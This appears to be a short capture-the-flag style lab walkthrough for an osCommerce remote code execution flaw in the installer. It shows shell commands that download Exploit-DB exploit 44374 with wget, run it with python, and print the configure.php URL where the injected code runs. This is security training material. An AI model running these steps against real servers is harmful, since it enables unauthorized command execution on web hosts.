

#### 3. osCommerce

- A version of osCommerce is vulnerable to a remote code execution attack. Exploiting this flaw does not require any valid accounts on the system. A attacker can remotely exploit the system and run arbitrary commands on the system as the web server user.
- Your task is to find this vulnerability and gain remote code exploitation!

----

```
http://uddqjcntsrtl0u4rxnvgfl90w.public1.attackdefenselabs.com/install
```





```sh
dev@box:~$ wget https://www.exploit-db.com/download/44374
--2018-12-17 22:24:20--  https://www.exploit-db.com/download/44374
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1833 (1.8K) [application/txt]
Saving to: ‘44374’

44374               100%[===================>]   1.79K  --.-KB/s    in 0s

2018-12-17 22:24:20 (180 MB/s) - ‘44374’ saved [1833/1833]

dev@box:~$
dev@box:~$ mv 44374 44374.py
```

```sh
dev@box:~$ python 44374.py
[+] Successfully launched the exploit. Open the following URL to execute your code

http://uddqjcntsrtl0u4rxnvgfl90w.public1.attackdefenselabs.com/install/install/includes/configure.php
dev@box:~$
```

